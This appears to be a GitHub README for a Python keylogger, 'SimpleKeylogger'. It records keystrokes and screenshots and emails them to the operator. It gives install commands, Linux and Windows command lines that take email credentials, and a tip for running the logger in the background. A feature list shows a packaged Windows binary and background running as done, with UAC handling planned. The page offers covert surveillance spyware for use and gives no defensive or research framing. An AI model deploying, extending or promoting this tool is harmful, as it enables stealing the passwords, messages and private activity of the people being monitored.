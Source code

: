 
![icon](https://user-images.githubusercontent.com/38415293/60696794-a7a31080-9ebd-11e9-9fed-34dea0cfb287.png)

# SimpleKeylogger
*this is a simple keylogger written in Python using the* 
**pyxhook** *module which is an implementatation of pyhook*
module
and the **keylogger** *send to your email everything that 
keylogger got*

## What i will Need to you this Script ?
do you gonna need pyxhood and python-xlib
the last one rest is pyscreenshot

## How i install this libs ?
**sample just copy and past in your terminal**
```
pip install pyscreenshot pyxhook && sudo apt install python-xlib
```

## How i use it on Linux ?
>python keylogger.py --email "example@exeple.com" --password "example1234"

## How i use it on Windows?
>./keylogger.exe -e "example@exemple.com" -p "example1234" --local C:/anyware/Desktop/logs.txt

## How to let the program running on background ?
**this is a simple just run the program with & or on the end**

## Syntax 
```
 --password is your password of your email
  
 --email is logic your email to send the logs 
  
 --local is the local where the program gonna save the logs and did will use to send the logs to your email

 --time is the time the Screenshots is will be sended to your email
```

# Meta
[@Mrtrue](https://twitter.com/TrueBinary) - gui15787@gmail.com
distributed under license GNU GENERAL PUBLIC LICENSE version 3 by [Free Software Foundation, Inc.](fsf.org) Read the original GPL v3.

## Feature
 - [x] take screenshot of window 
 - [x] Windows Version 
 - [ ] Add UAC on Windows Version  
 - [x] Arguments and make a binare of the program 
 - [x] Make the program run in the background
 - [x] Add the Pyinstaller 

### Contributing
1. Fork it (<https://github.com/TrueBinaru/SimpleKeyLogger/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request

## How to use look at this tutorial
[![Tutorial](https://user-images.githubusercontent.com/38415293/60913641-3ae19a80-a25e-11e9-93d2-afdae59a852f.jpg)](https://youtu.be/qAvAR-FBc5w)
